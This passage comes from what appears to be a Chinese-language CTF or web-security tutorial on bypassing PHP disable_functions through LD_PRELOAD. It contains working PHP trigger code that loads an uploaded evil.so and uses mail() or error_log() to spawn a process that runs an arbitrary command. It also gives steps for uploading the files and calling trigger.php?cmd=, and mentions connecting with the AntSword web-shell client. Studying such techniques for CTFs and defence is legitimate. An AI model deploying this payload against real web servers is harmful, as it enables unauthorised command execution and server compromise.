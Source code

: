         // 将命令写入输出文件，并重定向错误输出
        $output_file = "/var/www/html/output.txt"; // 确保此路径可写
        $shell_command = $command . " > " . $output_file . " 2>&1";

        // 设置包含命令的环境变量
        putenv("_evilcmd=" . $shell_command);

        // 设置 LD_PRELOAD 环境变量，指向上传的 .so 文件
        // 假设 evil.so 与 trigger.php 在同一目录
        putenv("LD_PRELOAD=./evil.so"); 

        // 触发子进程
        if (function_exists('mail')) {
            // 参数不重要，只是为了触发 sendmail 进程
            mail("a@a.com", "subject", "message", "From: b@b.com"); 
        } elseif (function_exists('error_log')) {
            // 向不存在的文件或邮件地址记录错误也会触发
            error_log("triggering preload", 1, "dummy@example.com"); 
        } else {
            die("No suitable function (mail or error_log) found to trigger LD_PRELOAD.");
        }

        // (可选) 等待命令执行完成并读取结果
        sleep(1); // 给点时间执行命令
        if (file_exists($output_file)) {
            echo "Command output:<pre>" . htmlspecialchars(file_get_contents($output_file)) . "</pre>";
            // unlink($output_file); // 清理
        } else {
            echo "Output file not found or command failed.";
        }
        ?>
        ```
    4.  **执行:** 上传 `evil.so` 和 `trigger.php` 到 Web 服务器的可写目录，然后访问 `trigger.php?cmd=ls -al /`。
*   **CTFHUB 示例 (CTFHUB Example):**
    ![LD_PRELOAD 1](./images/web1.png)
    (蚁剑连接)